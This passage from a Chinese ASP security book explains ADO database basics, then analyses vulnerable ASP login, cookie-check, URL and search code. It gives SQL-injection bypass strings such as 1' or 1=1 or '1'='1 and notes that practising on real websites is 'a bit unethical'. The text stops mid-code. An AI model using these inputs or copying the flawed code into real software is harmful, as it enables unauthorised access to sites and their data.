代码执行后的结果如图 6-23 所示，当我们输入新的年龄之后，单击【保存年龄】按钮，会将新的年龄保存到“age.txt”中。如果“age.txt”不存在就会自动创建，如果已经有了，就会自动从中读取数据，并显示出来。
图 6-23 代码执行后的结果

上面的就是 FSO 对象的一些基础知识了，虽然是比较枯燥，但是这些都是基础，对我们后面的分析网页木马有很大的帮助。下面来给大家介绍 ADO 技术。

### 6.4 ADO 技术

ASP 编程的核心技术是数据库编程，ADO（ActiveX Data Objects，即 ActiveX 数据对象）是微软提供的使 ASP 具有访问数据库功能的构件。总的来说，ADO 是一项容易使用并且可扩展的将数据库访问添加到 Web 页的技术。ADO 包括了很多对象，其中最重要的是 Connection（连接）、RecordSet（游标）这两个对象。

#### 6.4.1 Connection 对象

Connection 对象是与数据存储进行连接的对象，利用它我们才能够对数据库进行各种操作，它代表了一个打开的、与数据源的连接。创建一个 Connection 对象的实例很简单，使用 Server 对象的 CreateObject("ADODB.Connection") 就可以了。

Connection 对象有很多方法，但是与黑客技术最相关的是 ConnectionString 属性、Execute 方法和 Open 方法。ConnectionString 属性是用于建立连接数据源的信息，由包含一系列用分号隔开的 argument-value 语句的详细连接字符串指定数据源；Execute 方法执行指定的查询、SQL 语句、存储过程或特定提供者的文本等内容；Open 方法用于打开到数据源的连接，语法为 `connection.Open(ConnectionString, UserID, PassWord, Options)`。ConnectionString 为包含连接信息；UserID 为建立连接时所用的用户名；PassWord 为建立连接时所用的密码。

Connection 对象的主要功能就是连接数据库，下面就来介绍一下 Connection 对象连接各种数据库的知识。

Connection 对象的 Open 方法用来初始化一个连接，只用了 Connection 对象的 Open 方法以后，Connection 对象才会真正存在，然后才能发出命令对数据库产生作用。可以通过 ConnectionString 属性给 Connection 对象指定某个要绑定的数据源，或者把连接的信息直接传给 Open 方法。

在 ASP 中要使用 Connection 对象比较简单，具体格式如下：

```asp
<%
Set myconn = Server.CreateObject("ADODB.Connection")
%>
```

连接数据库的核心就是设定 Connection 对象的 ConnectionString 属性，设定好了这个属性，然后调用 Connection 对象的 Open 方法打开数据连接。打开数据连接的方法主要有以下两种：

```vb
<%
Dim Connstr, Myconn
Connstr = "数据库连接字符串"
Set Myconn = Server.CreateObject("ADODB.Connection")
Myconn.Open Connstr
%>
```

或者

```vb
<%
Dim Connstr, Myconn
Connstr = "数据库连接字符串"
Set Myconn = Server.CreateObject("ADODB.Connection")
Myconn.ConnectionString = Connstr
Myconn.Open
%>
```

其中，数据库连接字符串就是连接数据库的一些特定信息。数据库的连接还有 ODBC 和 OLEDB 两种方式之分，所以它们的数据库连接字符串也是不一样的，但是实现的功能都是一样的。比如 ACCESS 数据库的 OLEDB 连接方式的连接字符串为“Provider=Microsoft.Jet.OLEDB.5.0;Data Source=ds;User ID=admin;Password=pass;”。对于更多的数据库连接字符串，大家可以去问 Google 或者阅读光盘中的电子书。

下面我利用示例 6-17 向大家演示如何利用 OLEDB 连接数据库并对数据库进行各种操作。

其代码如下所示：

```html
<html>
<head>
<title>OLE DB 连接 ACCESS 数据库</title>
</head>
<body>
<%
Dim ConnStr, myConn, mySQL
ConnStr = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("../ASP/ACCESS.mdb")
' 数据库连接字符串
Set myConn = Server.CreateObject("ADODB.Connection")
' 创建一个 Connection 对象
myConn.ConnectionString = ConnStr
myConn.Open
' 直接打开数据库连接
mySQL = "insert into member (id,name,sex,birth,diploma,phone,email,pwd) values ('107','Marry','girl',#1978-1-1#,'硕士','88888888','hello@163.com','324561')"
' 这里定义一个 Insert 的 SQL 语句，向 ACCESS.mdb 的 member 数据库表插入一条记录
myConn.Execute mySQL
```

```asp
//利用 Execute 方法执行指定的 INSERT 语句
response.write "记录添加成功！"
%>
</body>
</html>
```

上面的代码成功执行之后就会向 ACCESS 数据库中添加一条记录。不过这里大家要注意的是，不管是哪一种数据库，我们只要把数据库连接字符串改成相应的数据库连接字符串就可以了，其他的就不用改了。

#### 6.4.2 RecordSet 对象

RecordSet 对象是 ADO 组件中使用最为频繁的一个对象，因为它包含了从数据库中查询到的数据。不仅如此，也可以使用 RecordSet 对象进行数据的插入、更新。虽然 RecordSet 对象有如此大的功能，但是与脚本黑客技术并没有很大的直接联系，不过要分析代码必须要了解 RecordSet 对象几个知识点，对我们今后的代码分析有很大的好处。

BOF、EOF 属性在代码分析的时候也经常见到。BOF 属性表示当前记录位置位于 RecordSet 对象的第一个记录之前，如果当前记录位于 RecordSet 的第一个记录之前，则 BOF 返回 TRUE；EOF 表示当前记录位置位于 RecordSet 对象的最后一个记录之后，如果当前记录位于 RecordSet 的最后一个记录之后，则 EOF 返回 TRUE。

还有就是 RecordSet 对象的 Open 方法，那是每一个 ASP 系统都会用到的方法。Open 方法是用来打开一个基于 ActiveConnection 和 Source 属性的 RecordSet。Open 方法也可以用来传递打开游标所需的所有信息。Open 方法的使用格式为：`RecordSet.Open [Source], [ActiveConnection], [CursorType], [LockType], [Options]`。Source 参数可以是 Command 对象、SQL 字符串、存储过程或数据库中的表名。ActiveConnection 表示当前的数据库连接，可以是一个已经创建的 Connection 对象，也可以是一个数据库连接字符串。

- CursorType：就是游标类型
- LockType：表示游标的并发设置
- Options：用于告诉数据提供者如何处理 RecordSet Source 中的信息

同 Connection 对象一样，在使用 RecordSet 对象之前，首先要创建这个对象，创建 RecordSet 对象的方法如下：

```asp
<%
Dim myrec
Set myrec=Server.CreateObject("ADODB.RecordSet")
%>
```

同样，在使用完了这个对象以后，也要关闭这个对象并释放其资源，如下所示：

```asp
<%
myRec.close
Set myrec=nothing
%>
```

下面通过 6-18 来向大家演示 Open 方法的应用，其代码如下：

```html
<html>
<head>
<title>属性编程</title>
</head>
<body>
<%
on error resume next
Dim ConnStr,myConn,mySQL,myRec
ConnStr="Provider=SQLOLEDB;data source=(local);initial catalog=northwind;user id=sa;password=;"
//数据库连接字符串
Set myConn=Server.CreateObject("ADODB.Connection")
//创建 Connection 对象
myConn.ConnectionString=ConnStr
myConn.open
//直接打开数据库连接
Set myRec=Server.CreateObject("ADODB.RecordSet")
myRec.open "select * from customers",,1,1
//利用 Open 方法打开记录集
response.write "通过 RecordCount 属性统计的记录数为：" & myRec.RecordCount
myRec.close
//关闭记录集
myRec.open "select count(*) as total from customers",,1,1
//利用 Open 方法打开记录集
response.write "<br>通过 SQL 统计的记录数为：" & myRec("total")
myRec.close
Set myRec=nothing
%>
</body>
</html>
```

代码运行后的结果如图 6-24 所示，利用 Open 方法我们对数据库进行了操作，这个方法应用得非常广泛，在后面的实际分析代码过程中，大家可以更加熟悉它。

到这里为止我们的 ASP 基础知识就讲完了。上面的知识是比较枯燥，但是对于我们要分析 ASP 程序的漏洞，那是必须掌握的。上面我挑选的知识点都是与黑客有关的，有了上面的基础知识，大家在下一章的代码分析就会变得非常轻松。当然对于 ASP 的知识，这里也只提到了一小部分，所以如果有人想从事 ASP 的开发工作，光学上面的还是不够的，必须要接触 ASP 其他的一些编程技术。

**声明：本章中部分 VBScript 的基础知识参考了由电子工业出版社出版的《ASP+SQL Server 动态网站开发》，该书由杨世锡等人编著。**

从本章你可以学到如下几点：

- 1. `'or'='or'` 和 cookies 欺骗漏洞代码分析与利用
- 2. ASP 中的注入与跨站漏洞代码分析
- 3. 上传漏洞代码分析
- 4. ASP 木马相关知识

## 第七章 ASP 程序常见漏洞

在前面我已经给大家介绍了 ASP 脚本下的各种黑客技术、ASP 各种基础知识以及 ASP 环境的搭建。虽然在第二章中，大家已经学会了 ASP 下的各种黑客技术了，但前面的都仅仅局限于工具及手工上，并没有深入到它的本质上。有了前面坚实的基础，所以这一章就开始带领大家如何分析 ASP 代码中存在的各种漏洞以及如何利用，深入到它的本质上去。

### 7.1 `'or'='or'` 经典漏洞代码分析

经典 `'or'='or'` 漏洞也叫身份验证登录漏洞，这是一个比较老的漏洞，不过目前很多系统还是存在这样的漏洞。前面我们已经知道了利用 `'or'='or'` 这个漏洞我们就可以顺利地登录网站后台，那么为什么输入这样的代码就可以进入后台呢？在讲这个漏洞之前我们先来回顾一点点数学知识，就是 AND 和 OR 运算符的运算规则，在第 5 章也讲了，不过为了给大家加深印象，这里还把它们的运算规则列出来。如果在一个关系式里同时有 AND 和 OR 运算符，就会有一个优先级的问题；如果是相同的逻辑符，则按照从左到右的运算顺序。逻辑运算符 AND 和 OR 的运算优先次序是：先运算 AND 运算符，再运算 OR 运算符。

AND 运算符是对两个表达式进行逻辑“与”运算，它们的运算式子为：`result=expression1 AND expression2`。其中 result 为结果，expression1 和 expression2 为任意表达式。

| expression1 的结果 | expression2 的结果 | AND 运算之后的结果 |
|---|---|---|
| 真 | 真 | 真 |
| 真 | 假 | 假 |
| 假 | 真 | 假 |
| 假 | 假 | 假 |

表 7-1 AND 的运算规则

OR 运算符是对两个表达式进行逻辑“或”运算，它们的运算式子为：`result=expression1 OR expression2`。其中 result 为结果，expression1 和 expression2 为任意表达式。表 7-2 就是 OR 的运算规则。

| expression1 的结果 | expression2 的结果 | OR 运算之后的结果 |
|---|---|---|
| 真 | 真 | 真 |
| 真 | 假 | 真 |
| 假 | 真 | 真 |
| 假 | 假 | 假 |

表 7-2 OR 的运算规则

前面我们说了，这个漏洞是发生在登录口，只有登录口才会出现这样的漏洞。下面就给大家讲解存在 `'or'='or'` 漏洞的后台登录代码。

- 1. session

先来看第一种后台登录程序，关键代码如下所示：

```asp
name=trim(request.Form("adminusername"))
//获得客户端输入的用户名，并过滤用户名两边的空格，并把值赋给 name
pass=trim(request.Form("password"))
//获得客户端输入的密码，并过滤密码两边的空格，并把值赋给 pass

set rs=server.createobject("adodb.recordset")
//利用 server 对象的 createobject 方法创建 ADO 组件的 RecordSet（游标）对象
sql="select * from admin where name='"&name&"' and password='"&pass&"'"
//将用户名和密码放入查询语句中查询数据库，这里大家要注意的是在 SQL 语句中的变量先是用一个单引号，再用一个双引号，最后用一对 & 包围上。
rs.open sql,conn,1,1
//利用 RecordSet 对象的方法执行我们前面编写的查询语句
if not rs.eof then
//rs.eof 表示当前的记录位置位于 RecordSet 对象的最后一个记录之后，这里的意思是相反，是位于最后一个记录之前，因为其前面有一个 not
username=rs("name")
//将 RecordSet 对象的 name 属性赋给 username
session("lifeuser")=username
//将 username 赋给 lifeuser 的 session 自定义变量
session.Timeout=10
//设置 session 的超时时间为 10 分钟
rs.close
//关闭 RecordSet 对象
set rs=nothing
//释放 RecordSet 对象
conn.close
//关闭连接
set conn=nothing
//释放连接
response.redirect "index.asp?user="&username
//利用 response 对象的 redirect 方法重定向到 "index.asp?user="&username
```

上面我已经对每一条代码进行解释了，现在我来整理一下其完整思路：先是得到客户端输入的用户名和密码并过滤两边的空格，然后就查询数据库。如果查询的结果是位于最后一条记录之前，那么就将 RecordSet 对象的 name 属性赋给 username。同时设置 session 变量 lifeuser 的值为 username，同时 session 的超时时间为 10 分钟，最后关闭及释放 RecordSet 对象和连接，并重定向到 `"index.asp?user="&username`。

上面的代码可以很好地完成我们的后台登录，看上去好像没什么问题一样，但实际上却出现了很大的安全问题。问题就出在第一句和第二句中，它们的功能是获得客户端输入的用户名和密码并过滤它们两边的空格。注意了，仅仅是过滤了两边的空格。这是在编程的时候一个非常大的安全缺陷，它并不会去检查我们输入的数据，也就是说不会检查我们输入的数据中到底是什么东西。如果我们输入了具有某些功能的代码呢？那么它也会不知道，那么就可以实现我们攻击的目的了。所以在编程的时候一定要对输入的参数进行有效的检查。

因为上面只过滤了空格，所以我们现在的目的就是使  
`sql="select * from admin where name='"&name&"' and password='"&pass&"'"`  
这条语句执行为真。要达到这个目的就要用到我们的 OR 登录，只要我们构造一个特殊的用户名，就可以绕过程序的验证，直接达到后台。之所以有 OR 登录就是因为前面的用户名过滤不严格导致的。在上面的后台登录代码中我们只要在用户名处输入 `1' or 1=1 or '1'='1`（不含双引号，以下相同），密码处我输入 123，其实随便输入什么符号都可以，点击登录就进入后台了。

上面输入的数据到达我们服务器后就要执行 SQL 查询语句了，这个时候那条 SQL 查询语句就变成了：  
`sql="select * from admin where name='1' or 1=1 or '1'='1' and password='123'"`。

这个时候前面给大家讲的数学知识就派上用场了。现在我们把 where 后的字符串用逻辑真假来表示，在逻辑表达中 `'1'` 是为假的；`1=1` 肯定是正确的，所以为真；`'1'='1'` 也是正确的，所以也为真；密码我们是随便输入的，这里我输入的是 123，所以密码是错误的，即它为假，所以它们有了如下的关系：假 or 真 or 真 and 假。

根据前面的数学基础知识，大家不懂可以去查表。如果一个表达式中同时有 AND 和 OR 运算符，就会有一个优先级的问题；如果是相同的逻辑符号，则按照从左到右的运算顺序。逻辑运算符 AND 和 OR 的运算优先次序是：先运算 AND 运算符，再运算 OR 运算符。所以我们要先运算 AND 运算符，“真 and 假”的运算结果我们可以通过查表得到为假，所以关系就变成了：假 or 真 or 假。现在就剩下了 or 运算符了，按照从左到右的原则，“假 or 真”的运算结果为真，所以现在就剩下了“真 or 假”，查表可以得到它的结果为真。

所以我们在用户名处输入 `1' or 1=1 or '1'='1`，密码输入任何字符之后，我们的 SQL 查询语句的结果为真了。至于后面的 `rs("name")` 则是因为找不到 `1' or 1=1 or '1'='1` 这个用户名，而自动转到数据库的最后一条记录，不过这个对我们的攻击并不会受到很大的影响。

因为上面用到了 session，所以我们还可以用来进行 session 欺骗攻击。假设这个系统的管理员用户名是 admin，那么只需要在用户名处输入 admin；密码处输入 `1' or '1'='1` 就可以达到 session 欺骗的目的了。当输入上面的代码后，在 SQL 查询语句中就变成了  
`sql="select * from admin where name='admin' and password='1' or '1'='1'"`。  
因为在数据库中存在 admin 的用户，所以 `name='admin'` 为真；`password='1'` 肯定是错误的了，所以为假；`'1'='1'` 是正确的，所以为真。那么在 where 后的语句转换成逻辑表达式后为：真 and 假 or 真，通过查表可以知道它们的最后结果也是真。

因为系统管理员的用户名是 admin，所以 `rs("name")` 就等于 admin，也就是 username 为 admin。那么最后登录后就会被重定向到 `index.asp?user=admin`，这样我们就成功地进入了管理员的后台页面了。

- （2）cookie

前面我们讲的后台登录是采用的 session 验证，在 ASP 中还有很多系统采用 cookie 来验证。下面来给大家一个采用 cookie 的后台登录程序，代码如下所示：

```asp
<%set rs=server.createobject("adodb.recordset")
//利用 server 对象的 createobject 方法创建 ADO 组件的 RecordSet(游标)对象
sql="select * from admin where admin='"&request.Form("username")&"' and pass='"&md5(trim(request.Form("password")))&"'"
//通过获得客户端输入的用户名和密码来构造查询语句
//其中密码经过了 md5 加密算法加密
rs.open sql,conn,3,1
//执行查询的 SQL 语句
if rs.eof then
//如果当前的记录位置位于 RecordSet 对象的最后一个记录之后，则
response.write "<script>alert('密码错误')</script>"
//弹出一个对话框，显示密码错误
response.write "<script>history.back(1)</script>"
//页面返回到前一页
else
//否则
response.cookies("admin")=rs("admin")
//将 RecordSet 对象的 admin 属性赋给 cookie 变量，实现 cookie 保存
response.cookies("pass")=rs("pass")
//和上面的功能一样
response.write "<script>location.href='step1.asp'</script>"
//跳转到 step1.asp 页面
end if
rs.close
set rs=nothing
conn.close
set conn=nothing
%>
```

通过上面的学习，大家应该就可以看到在 SQL 的查询语句中，存在经典的 `' or '=' or'` 漏洞。在  
`sql="select * from admin where admin='"&request.Form("username")&"' and pass='"&md5(trim(request.Form("password")))&"'"`  
中，用户名没有经过任何的过滤就进行查询了，而密码先经过过滤两边空格然后进行 md5 加密。和上面不同的是，因为这里的密码用了加密系统，所以我们的密码在数据库中都会被转换成密文，所以密码是无法利用的。不像上面一样密码我们也输入攻击代码，这里却不可以，也就是说这里只有用户名我们有利用价值，不过这已经足够了。

在用户名中我们输入 `or'='or`，密码随便输入什么字符，那么 where 后的语句转换成逻辑语句后为：假 or 真 or 假 and 假，通过查表就可以得到结果为真。因为结果为真，所以系统会将 admin 和 pass 作为 cookie 保存起来，并跳转到 step1.asp，这样我们就进入了后台。

- （3）总结

不管系统的后台采用的是 session 还是 cookie，它都要获得我们客户端输入的用户名和密码。如果系统没有对我们输入的用户名和密码进行全面的过滤，仅仅是过滤了两边的空格或者根本没有过滤任何字符，就进行数据库查询，那么这个登录页面就存在 `' or '=' or'`（身份验证）漏洞。要成功实现攻击这个漏洞，要利用到 or 和 and 运算符，利用它们的组合使得 SQL 的查询语句执行之后的结果为真，那么这样就可以成功地进入后台。关键就是要使 SQL 查询语句的执行结果为真。

关于这个漏洞的修补很简单，因为不管怎么构造出的攻击代码都会有单引号，所以我我们只要把单引号过滤就可以完全防御这个漏洞了。在过滤单引号的时候，最好是把单引号转换成两个单引号，过滤代码如下所示：

```vb
name=Replace(trim(request.Form("adminname")),"'","''")
pass=Replace(trim(request.Form("password")),"'","''")
```

## 7.2 cookies欺骗漏洞代码详细分析

在前面已经为大家演示了如何利用工具进行 cookie 欺骗，然后进入后台。现在我们从程序的角度上来学习如何挖掘代码中存在的 cookie 欺骗漏洞。还是以第二章中的那个心情网络投票系统来举例。

我们先来看看在心情网络投票系统中系统是如何得到 cookie 的，它的程序其实就是上一节中采用 cookie 验证的那个例子，代码这里不再列举出来了，可以参考上面的。

在上面的代码中，有这样的两行代码：

```vb
response.cookies("admin")=rs("admin")
response.cookies("pass")=rs("pass")
```

当登录用户的名称及密码正确，程序就会在该用户的 cookies 中增加 admin 和 pass 这两项。他们就是系统给登录用户赋予的 cookie 值，采用 cookie 当然是为了方便我们以后登录。那么在以后的登录过程中它是怎么验证我们的 cookies 值的，实现验证的过程在 check.asp 文件中，代码如下所示：

```vb
<%if request.cookies("admin")="" or request.cookies("qx")="" then
    response.write "<script>alert('你还未登陆，请登陆！');</script>"
    response.write "<script>location.href='index.asp';</script>"
    response.end
end if%>
```

仔细看第一行代码：`request.cookies("admin")="" or request.cookies("qx")=""`。它的意思是如果 `request.cookies("admin")` 中的值和 `request.cookies("qx")` 中的值有一个为空的话，那么就弹出一个对话框显示“你还未登录，请登录”并返回到 index.asp 页面去。

这行代码存在很大的逻辑问题，如果我们 `request.cookies("admin")` 的值不为空呢；或者 `request.cookies("qx")` 的值不为空呢；或者它们两个的值都不为空呢，那么不就不会输出错误了吗？也就成功地进入后台了。

所以我们只需要在验证的时候使 `request.cookies("admin")` 和 `request.cookies("qx")` 中的值都不为空。要使它们不为空，我们用“桂林老兵”修改一下它们的 cookie 值就可以了。至于它们的值为多少就无所谓，重要的是要保证它们不为空就可以了，那么这样就可以成功地进入后台。

其实，分析 cookie 欺骗的代码很简单。之所以会出现这样的漏洞，是因为他们在逻辑上考虑不严格而导致的。例如下面的代码也是典型：

```vb
if request.cookies("username")="" then
' 判断 cookie 中的 username 是否为空
response.redirect "login.asp"
' 为空就转向 login.asp
end if

if request.cookies("password")="" then
' 判断 cookie 中的 password 是否为空
response.redirect "login.asp"
' 为空就转向 login.asp
end if

if request.cookies("randomid")<>4790 then
' 判断 cookie 中的 randomid(验证码)是否为 4790
response.redirect "login.asp"
' 不等于就转向 login.asp
end if
```

程序判断从客户端获得的用户名和密码是否为空，如果有一个为空，就转向 login.asp，最后还判断验证码是不是 4790，如果不是也转向 login.asp。所以要对它进行 cookie 欺骗也很简单，只需要使用户名和密码不为空且验证码为 4790，就可以达到欺骗的目的了。

所以要分析程序中存在的 cookie 欺骗漏洞，逻辑思维比较重要，同时逻辑运算符一定要学好。至于逻辑运算符，在 7.1 节已经给大家列举了两个表，没事的时候多看看那两个表，对你绝对是有好处的。

## 7.3 SQL注入漏洞（SQL Injection）

在前面的注入攻击中，特别是在手工注入的过程中，大家都知道就是输入一些 SQL 代码，然后系统执行我们的代码，使得我们得到一定权限，从而危害系统。那既然这些代码会危害我们的系统，为什么我们还可以输入代码呢？说到底就是系统对我们输入的数据没有得到有效的过滤，这也是注入漏洞出现的本质原因。

寻找系统中的注入漏洞就是要找到系统中哪些从客户端获得的变量（参数）没有过滤或过滤不完全，如果有这样的过滤不完全的参数的话，那么就存在漏洞了。下面的代码就是存在典型的注入漏洞：

```vb
id=request.Form("id")
set rs=server.createobject("adodb.recordset")
sql="select * from admin id="&id
rs.open sql,conn,1,1
```

参数 id 在从客户端得到数据后就直接进入了 SQL 语句中，之后就进行查询了。没有对参数 id 进行任何的检查和过滤就进行数据库操作，漏洞被完完全全暴露出来了。因为系统没有检查和过滤参数 id，所以我们可以在 id 中输入任何的数据。

假设我们的 id 等于 3，那么正常的情况下，我们输入 3 时到了数据库查询的时候就变成了：`select * from admin id=3`。可是我们要进行注入攻击，就当然不是仅仅输入 3 了。例如我们输入 `3 and 1=1`，则就变成了：`select * from admin id=3 and 1=1`，因为 `select * from admin id=3` 和 `1=1` 都是正确的，所以执行 and 运算后结果也为真，所以返回正确；而当我们输入 `3 and 1=2` 时，就变成了：`select * from admin id=3 and 1=2`，因为 `select * from admin id=3` 是正确的，而 `1=2` 是错误的，通过查表 7-1 可以知道，整条语句执行后的结果就是为假的，那么返回的页面就是错误的了。这也是为什么我们可以用 `and 1=1` 和 `and 1=2` 来判断是否存在注入漏洞的原因了。

因为参数 id 没有过滤，我们可以做很多事。例如得到管理员的密码、当前数据库的用户名和权限、甚至是一个 webshell。对于这些攻击其实就是我们的手工注入攻击的步骤了，那些攻击已经在第 2 章讲得很清楚，如果还对这些具体的攻击步骤有不清楚的地方，可以到前面去参考，这里的主要目的是让大家如何挖掘代码中存在的漏洞。

虽然注入攻击可以千变万化，但是从程序的角度来讲都是因为参数（变量）的问题。在一个系统中，参数会以很多种的形式存在，所以注入也就有很多种形式了，不同形式的参数在进行分析的时候会存在一些差异。而这一节我将带领大家如何从代码中寻找各种比较常见的注入漏洞。

### 7.3.1 在URL中的注入漏洞代码分析

URL 是定位一个网站中的资源的唯一标志，在一个网站的 URL 中，大部分都存在参数，例如 `http://www.xxx.com/index.asp?id=2`，它就存在 `id` 这个参数。还有很多网站的 URL 中还存在多个参数，如采用 `get` 方式提交数据时。

前面在用工具进行注入的时候，我们注入地址都是网站的网址。之所以这个网址存在注入漏洞，是因为网站中的参数没有得到有效的过滤。URL 中存在注入漏洞是目前最为普遍的，危害相对来说也是最大的。因为不管你，只要懂得用注入工具就可以进行入侵了，刚入门的菜鸟朋友最喜欢那样的了。

而这一节就教大家如何寻找 URL 中存在的注入漏洞。要寻找 URL 中的漏洞，首先就是要确定其 URL 中有哪些参数，如在 `http://localhost/news.asp?id=7` 中的参数为 `id`，其值为 `7`，而且这个参数 `id` 是存在于 `news.asp` 这个文件中。所以接下来我们就是要在 `news.asp` 文件中找出 `id` 参数的值在服务器端是如何被处理的，下面就是 `id` 在 `news.asp` 文件中处理的代码。

```asp
<title><%=webname%>--查看新闻</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<link href="inc/css.css" rel="stylesheet" type="text/css">
</head>
<body leftmargin="10" topmargin="10" marginwidth="0" marginheight="0">
<%dim newsid
newsid=request.QueryString("id")              ' 获取从客户端中输入的 id 值
set rs=server.CreateObject("adodb.recordset") ' 建立一个 recordset 对象
rs.open "select * from wq_news where newsid="&newsid,conn,1,3
' 直接取得参数后就进行数据库查询工作，没有进行任何过滤，注入漏洞出现


```

`news.asp` 文件中的 `id` 的值在从客户端得到之后就赋值给了 `newsid`，而这个 `newsid` 却没有经过任何的过滤就执行了查询数据库操作了，这正是我们的经典漏洞所在。同时这个 `id` 是在 URL 中的，所以用它来注入非常方便。如图 7-1 和图 7-2 就可以确定其存在注入漏洞，剩下的事情就是交给工具了。
图 7-1 输入 and 1=1 后返回正常
图 7-2 输入 and 1=2 后返回正常

前面的例子中的参数 id 是没有经过任何的过滤就进行数据库查询了，这种漏洞目前国内的一些比较小而且名气不大的系统中还是普遍存在的。但是在一些安全性稍微高一些的系统中就很难找到这样的傻瓜漏洞了，它们都会对 URL 中的参数进行过滤。典型的代码有：

```asp
<!--#include file="include/function.asp" -->
' 引用 function.asp 文件，因为要使用其中的 CheckStr() 函数
...........
...............
Id=trim(Request.Form("id"))
' 获得客户端中输入的 id 值并对其两边的空格过滤
Cid=CheckStr(Id)
' 利用 function.asp 文件中的 CheckStr() 函数对参数 Cid 进行安全过滤
set rs=server.CreateObject("adodb.recordset")
sql="select * from wq_news where newsid="&Cid
rs.open sql,conn,3,1
```

一般安全的代码就是像上面的一样，在得到客户端的数据后对其进行各种安全检查，这里我们用 CheckStr() 函数来完成这个工作。因为 CheckStr() 函数在 function.asp 文件中，所以在文件的开始要用 `<!--#include file="include/function.asp" -->` 来完成对 CheckStr() 函数的引用。

当然上面的代码也不一定就很安全了，上面的程序只是一种安全的编程思想。以前我就碰到过一个这样的系统，它也对客户端的参数进行了安全过滤，但是它并没有过滤完全，它是这样的过滤，CheckStr() 函数是这样编写的：

```vb
Function CheckStr(Chkstr)
   IF isnull(Chkstr) Then  ' 检查参数是否为空
      Chkstr = ""
      Exit Function
   End IF
   CheckStr=Trim(replace(Chkstr,"'",""))
   CheckStr=Trim(replace(Chkstr,"1=1",""))
   CheckStr=Trim(replace(Chkstr,"1=2",""))
End Function
    
    


```

虽然上面对参数过滤，但是仅仅过滤了单引号、1=1、1=2。所以它这里过滤也是白费工夫，因为我们仍然可以对它进行注入攻击，可以轻易地绕过它的过滤防线。

如果我们要寻找一个系统的 URL 中的注入漏洞，思路是这样的：

- 1. 准备一套系统，并在本地把它的环境搭建好，用于在本地进行测试。如果网络上有使用这个系统的网站，最好还是拿网站来做试验，虽然这样有点不道德，但是可以增加我们的实战经验。
- 2. 寻找 URL 中的参数。我们有两个办法，一是浏览网站的时候把 URL 中的参数记录下来，二是分析系统中的代码，从代码中找出 URL 中的参数。从代码中找 URL 的参数有一个小技巧，就是代码中查找关键字“href”。大家学过了 HTML 应该知道这个关键字是用来做链接用的，所以使用它的地方就一定是 URL。如图 7-3 所示，我利用记事本的搜索功能搜索代码中的 href 关键字，得到了一些 URL 的连接及参数 lid。  
  图 7-3 利用关键字 href 搜索代码中的 URL 地址，并得到参数 lid
- 3. 查找 URL 中的参数是如何被处理的。在第二点中我们找到 URL 中的参数，那么接下来就是要在代码中查找这些参数是怎么被处理的，也就是看这些参数有没有被过滤掉。如果没有过滤那么就发现了漏洞，如果过滤了，那么我们也要看过滤它们的那个函数是如何编写的。例如前面那个 CheckStr() 函数就是过滤用的，但是它只是过滤了单引号，所以我们仍然可以突破。在图 7-3 中我们查找到了 URL 中的一个 lid 参数，那么接下来就是要在代码中搜索参数 lid，看它是怎么得到的，有没有被过滤。结果如图 7-4 所示，参数 lid 只是被过滤了单引号就被放入了数据库的操作中去了，所以就出现了注入漏洞。就这样我们轻易地发现了一个系统中的 URL 存在的注入漏洞，很方便吧。  
  图 7-4 查找 URL 中的参数 lid 是如何被获取的
- 4. 如果我们在第三点中发现 URL 中参数的注入漏洞，那么最后我们就是要进行注入攻击了，具体的攻击步骤及技术在第 2 章已经讲得很详细了，这里不再重复。不过有一点还是大家最好用工具攻击吧，因为系统的代码我们已经得到了，其数据库中的字段、表段及后台等信息我们都是已知的，所以在工具中把这些信息添加进去后就可以很快攻破这个系统。

### 7.3.2 ASP中的搜索型注入漏洞代码分析

经常留意网站结构的朋友应该可以发现，现在不管是大网站还是小网站都差不多提供了一个搜索的功能。利用它我们可以很快找到网站中的各种资源，非常方便。它要实现搜索这个功能，肯定是要利用 SQL 中的 SELECT 语句。搜索一般都是利用关键字来查询，而搜索的结果就是含有这些关键字的所有信息，这就是我们 SQL 语句中的模糊查询。对于要实现模糊查询就要用到 LIKE 操作符及其通配符，最常用的通配符是 `%`。对于模糊查询的更多内容，如果大家印象还不深刻的话，可以去参考第 5 章中的 5.4.2 节中模糊查询的基础内容，在那里我已经对模糊查询做了很详细的介绍。

在注入的方式上主要有数字型和字符型。大部分人只注意到数字型的注入攻击，比如上一节中我们的 URL 中的注入就是比较典型的数字型注入方式。而字符型注入相对来说关注的人少一些，其实同样的，字符型注入也是光芒四射，典型的有我们的搜索型注入。因为是搜索功能，所以很多程序员在编写这里的代码的时候，都忽略了对其参数进行过滤，所以存在了注入漏洞，而且这样的漏洞在国内的系统中非常普遍。利用搜索功能来进行注入我们可以称其为搜索型注入攻击。

大部分系统中实现搜索功能的文件，其文件名为 search.asp。所以大家如果要寻找搜索型注入漏洞，首先就是要看系统有没有这个文件，一般情况下是有的；如果没有，我们还可以搜索系统的首页查找关键字“搜索”也可以找到，因为只要系统中有搜索功能，那么在首页中是肯定存在，如图 7-5 所示。
图 7-5 在首页中查找“搜索”关键字

找到搜索关键字后，就是要看实现搜索功能的这个表单是被哪个文件链接的。这里有个小技巧，就是先找出实现搜索功能的这个表单，可以寻找搜索关键字前的第一个 `<form>` 标记。可以这样实现：先把鼠标指针放在搜索关键字处，然后选择搜索，并且搜索的方向选为“向上”，如图 7-6 所示，而搜索的关键字为“`<form>`”。我们利用它搜索到的第一个结果就是处理我们搜索的表单，如图 7-7 所示。找到之后，可以看到 `<form>` 标记中的 action 属性是哪个文件，而这个文件就是实现处理搜索功能的文件，如图 7-7 所示。这里提示一下：系统的首页名字一般为 index.asp 或 default.asp；在记事本中，要实现搜索功能，点击菜单栏中的“编辑”菜单，然后选上“查找”选项就可以了。
图 7-6 搜索方向改为“向上”
图 7-7 利用 `<form>` 关键字搜索表单，action 的值为处理搜索的文件

因为搜索型注入比较特殊，用它来进行注入攻击和普通的攻击有一些不同。而且在前面未提及这种攻击方法，也未介绍其攻击的具体步骤，所以这里就简单给大家介绍一下，如何利用它来进行攻击。

下面我们来看看在源程序中最为常见的搜索功能代码如下所示：

```asp
<%
......
............

keyword=trim(request.Form("keyword"))  ' 获得客户端要查询的关键字
if keyword="" then
```

```vb
response.write "<script language=javascript>alert('查询内容不能为空!');history.back(-1);</script>"
response.end  '处理关键字为空的代码
end if
set rs=server.CreateObject("ADODB.Recordset")
sql="select * from b_class where b_name like '%"&keyword&"%' order by id desc"
rs.open sql,conn,3,1  '利用搜索关键字进行查询
if rs.eof then
